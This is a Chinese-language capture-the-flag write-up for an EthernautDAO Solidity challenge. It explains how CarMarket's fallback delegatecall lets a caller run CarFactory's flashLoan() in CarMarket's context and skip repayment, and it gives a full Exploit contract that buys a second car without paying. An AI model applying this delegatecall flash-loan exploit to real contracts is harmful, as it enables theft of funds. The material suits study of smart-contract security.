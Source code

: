 ## 合约

Twitter Link:https://twitter.com/EthernautDAO/status/1548638648974749696

- [CarToken.sol](https://github.com/Poor4ever/EthernautDAO-Twitter-Solution/blob/main/src/Cars/CarToken.sol) 
- [CarMarket.sol](https://github.com/Poor4ever/EthernautDAO-Twitter-Solution/blob/main/src/Cars/CarMarket.sol) 
- [CarFactory.sol](https://github.com/Poor4ever/EthernautDAO-Twitter-Solution/blob/main/src/Cars/CarFactory.sol) 

## 完成题目条件

需要从 CarMarket 合约购买两辆车.

## 解题

初始你没有任何 CarToken,只能通过 mint() 函数获取 1 个token, CarMarket 和 CarFactory 合约各有 100000 Token

`CarToken` 是一个 ERC20 Token 合约,用于从 CarMarket 购买车辆,挑战者只能通过 mint() 函数获得 1 个Token.

`CarMarket` 通过 purchaseCar() 函数购买车辆, _carCost() 判断如果是第一次购买只需要 1 个 Token,不是第一购买需要支付 100000 个 Token,CarFactory 合约给购买过车辆的用户提供免费的闪电贷.

```solidity
    fallback() external {
       carMarket = ICarMarket(address(this));
       carToken.approve(carFactory, carToken.balanceOf(address(this)));
       (bool success, ) = carFactory.delegatecall(msg.data);
       require(success, "Delegate call failed");
    }
```

问题出在 `CarMarket` 的回退函数委托调用我们是可以任意输入的,如果通过它去委托调用 `CarFactory` 的 flashLoan() 函数,执行的上下文是在 `CarMarket` 合约,收到的是 `CarMarket` 合约 transfer() 的 CarToken ,回调 receivedCarToken() 后,判断的是 `CarFactory` 合约 CarToken 余额有没有变化,即我们可以不用偿还,完成这次闪电贷,从 `CarMarket` 购买第二辆车.

编写 Exp 测试完成挑战

forge test -vvv

[Car.t.sol](https://github.com/Poor4ever/EthernautDAO-Twitter-Solution/blob/main/src/test/Car.t.sol) 

```solidity
contract Exploit {
    CarToken token;
    CarFactory factory;
    CarMarket market;

    constructor(CarToken _tokenAddr, CarFactory _factoryAddr, CarMarket _marketAddr) {
        token = _tokenAddr;
        factory = _factoryAddr;
        market = _marketAddr;
    }
    
    function start() public {
        bytes memory flashLoan_func_sign = abi.encodeWithSelector(factory.flashLoan.selector, 100_000 ether, address(this));

        token.mint();
        token.approve(address(market), type(uint256).max);
        market.purchaseCar("TESLA", "Black", "TEST123");
        address(market).call(flashLoan_func_sign);
        market.purchaseCar("DMC-12", "Silver", "OUTATIME");
    }
    
    function receivedCarToken(address _factoryAddr) public returns(bool) {
        return true;
    }

}
```

